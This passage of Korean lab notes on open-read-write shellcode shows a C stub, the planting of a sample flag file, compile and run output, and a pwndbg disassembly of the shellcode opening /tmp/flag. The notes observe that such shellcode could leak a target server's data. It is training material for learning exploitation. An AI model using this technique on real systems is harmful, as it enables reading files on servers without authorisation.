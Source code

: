 ```nasm
void run_sh();

int main() { run_sh(); }
```

### 실행

- 셀코드가 작동함을 확인하기 위해 `/tmp/flag` 파일 생성

```nasm
echo 'flag{this_is_open_read_write_shellcode!}' > /tmp/flag
```

- `orw.c` 를 컴파일하고, 실행
    - 성공적으로 실행이 도면 문자열이 출력되는 것을 확인할 수 있음
    - 만약 공격의 대상이 되는 시스템에서 이 셸코드를 실행할 수 있다면, 상대 서버의 자료를 유출해낼 수 있음
    - 그리고 `/tmp/flag` 의 내용 말고도 몇 자의 알 수 없는 문자열들이 출력되는 경우가 있음 → 초기화되지 않은 메모리 영역 사용

```nasm
$ gcc -o orw orw.c -masm=intel
$ ./orw
flag{this_is_open_read_write_shellcode!}
```

## orw 셸코드 디버깅

---

- `run_sh()` 에 브레이크 포인트 설정

```nasm
$ gdb orw -q
...
pwndbg> b *run_sh
Breakpoint 1 at 0x1129
pwndbg>
```

- `run` 명령어로 `run_sh()` 의 시작부분까지 코드를 실행, 작성한 셀코드에 `rip` 가 위치한 것을 확인할 수 있음
  
    ```nasm
    pwndbg> r
    Starting program: /home/dreamhack/orw
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    
    Breakpoint 1, 0x0000555555555129 in run_sh ()
    ...
    *RIP  0x555555555129 (run_sh) ◂— push 0x67
    ──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
     ► 0x555555555129 <run_sh>       push   0x67
       0x55555555512b <run_sh+2>     movabs rax, 0x616c662f706d742f
       0x555555555135 <run_sh+12>    push   rax
       0x555555555136 <run_sh+13>    mov    rdi, rsp
       0x555555555139 <run_sh+16>    xor    rsi, rsi
       0x55555555513c <run_sh+19>    xor    rdx, rdx
       0x55555555513f <run_sh+22>    mov    rax, 2
       0x555555555146 <run_sh+29>    syscall
       0x555555555148 <run_sh+31>    mov    rdi, rax
       0x55555555514b <run_sh+34>    mov    rsi, rsp
       0x55555555514e <run_sh+37>    sub    rsi, 0x30
    ...
    pwndbg>
    ```
    